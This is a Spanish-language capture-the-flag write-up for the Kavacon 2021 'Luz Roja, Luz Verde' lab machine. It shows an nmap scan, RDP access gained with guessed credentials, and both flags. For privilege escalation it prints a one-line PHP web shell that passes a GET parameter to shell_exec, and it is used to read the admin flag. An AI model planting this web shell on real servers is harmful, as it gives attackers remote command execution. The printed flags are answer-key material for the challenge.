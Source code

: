 ```yaml
---
title: "Kavacon 2021 – Luz Roja, Luz Verde"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/kavacon.png"
categories:
  - WriteUp
---
```



## USER

En primer llugar hacemos un nmap a la ip y obtenemos lo siguiente

```
 Nmap 7.91 scan initiated Wed Oct 20 11:01:58 2021 as: nmap -p22,80,135,139,443,445,3389,5040,49664,49665,49666,49667,49669,49674 -sCV -O -oN NMAP 10.4.4.153

Nmap scan report for 10.4.4.153
Host is up (0.068s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1b:96:83:6a:eb:95:f2:4e:a6:5c:7b:03:9f:11:ff:69 (RSA)
|   256 49:b1:af:d5:ab:62:68:18:17:dd:91:7d:d1:cf:24:68 (ECDSA)
|_  256 a3:28:50:54:b9:fa:f5:58:a7:20:3d:ba:08:e2:71:23 (ED25519)
80/tcp    open  http          Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was http://10.4.4.153/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was https://10.4.4.153/dashboard/
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 (91%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (90%), Microsoft Windows XP SP3 (88%), Microsoft Windows Server 2008 SP1 (88%), Microsoft Windows 10 (87%), Microsoft Windows 7 or Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8.1 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-20T14:04:40
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 20 11:06:56 2021 -- 1 IP address (1 host up) scanned in 298.22 seconds
```

Al entrar a la web nos damos cuenta que es sobre «Juego del Calamar»

![Luz Roja, Luz Verde 1](/assets/images/post/2021/luzrojaluzverde_1.png)

De acuerdo a la serio uno se movía con Luz verde, por lo que escribimos «verde», con esto entramos a una web con los datos de nuestro jugador #3389 y podemos descargar la ficha, el jugador 3389 hace alusión al puerto 3389 visto en en nmap además de un potencial usuario «seong»

![Luz Roja, Luz Verde 2](/assets/images/post/2021/luzrojaluzverde_2.png) | ![Luz Roja, Luz Verde 3](/assets/images/post/2021/luzrojaluzverde_3.png)

Al tarducir el fichero nos dice que la contraseña es un numero de 4 digitos. En la serie, la contraseña de ATM era el numero del jugador por lo que se deduce que la contraseña es 3389 (mismo que el pueto RDP), se prueba y podemos entrar a remote desktop con el comando y obtenemos acceso con rdp y la flag

rdesktop -f -u "seong" -p 3389 <IP>

***flag{jug4r3m0smu3vet3luzv3rd3!!}***

## ROOT

Para root, se debe subir una web shell en php en la carpeta C:\xampp\htdocs\dashboard\ desde

```
<?php
    echo shell_exec($_GET['cmd']);
?>
```

Con esta web tenemos acceso como administrador y podremos ver la flag revisando en nuestra web con la extensión ?cmd=type C:\Users\admin\Desktop\admin.txt.txt

***flag{c0m0estamosmentalmente?}***

![Racso](https://www.hackthebox.com/badge/image/159593)